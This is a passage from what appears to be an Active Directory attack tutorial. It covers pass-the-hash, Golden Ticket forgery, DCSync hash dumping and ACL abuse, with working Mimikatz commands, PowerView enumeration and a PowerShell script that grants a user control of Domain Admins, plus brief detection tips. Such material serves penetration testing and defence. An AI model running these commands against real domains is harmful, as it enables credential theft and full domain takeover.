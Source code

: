 gives a shell as Lab\Administrator if the NTLM hash is correct. (Modern Windows may require AES/PAC, but NTLM is often enough for legacy services.) PtH is a fundamental lateral movement technique.

- **Pass-the-Ticket / Golden Ticket**: If you compromise the KRBTGT account (the AD Kerberos service account) by obtaining its NT hash (e.g. via DCSync), you can forge Kerberos TGTs for any user (kerberos::golden in Mimikatz). For instance:

```
privilege::debug
kerberos::golden /domain:domain.local /sid:S-1-5-21-... /krbtgt:<KRBTGT-NT-Hash> /user:Administrator /groups:500
kerberos::ptt /ticket:<ticket.kirbi>

```

This creates a TGT for Administrator (SID ending in 500) which you then "Pass the Ticket" to become Domain Admin. (Detection: monitor unusual krbtgt account activity, tickets with very long lifetimes.)

- **DCSync (Directory Replication)**: If a user has Replicating Directory Changes rights, they can query a DC for password hashes of any account. The classic tool is Mimikatz:

```
privilege::debug
lsadump::dcsync /domain:domain.local /user:krbtgt

```

This fetches the krbtgt hash (used for Golden Ticket) and all other AD password hashes. Impacket's [secretsdump.py](http://secretsdump.py/) can also do this if given a domain admin's creds. Detection: DCSync is noisy – watch for GetChanges on the KRBTGT or domain.

- **AD ACL Abuse**: Misconfigured Active Directory permissions can yield DA. For example, if a low-privileged user has GenericAll or WriteDACL on a high-privilege object (like the Domain Admins group), they can modify it. Enumeration: use BloodHound or PowerView's Get-ObjectAcl. Example:

```
Get-ObjectAcl -Identity "CN=Domain Admins,CN=Users,DC=domain,DC=com" -ResolveGUIDs

```

Look for a non-admin user with rights like GenericAll (full control) or WriteDACL. If found, the attacker can add themselves to Domain Admins. Exploitation (PowerShell example):

```
# Define objects
$user = New-Object System.Security.Principal.NTAccount("domain\\user1")
$group = "CN=Domain Admins,CN=Users,DC=domain,DC=com"
$acl = Get-Acl -Path "AD:$group"

# Create rule granting GenericAll to user
$rule = New-Object System.DirectoryServices.ActiveDirectoryAccessRule($user, "GenericAll", "Allow")
$acl.AddAccessRule($rule)

# Apply
Set-Acl -Path "AD:$group" -AclObject $acl

```
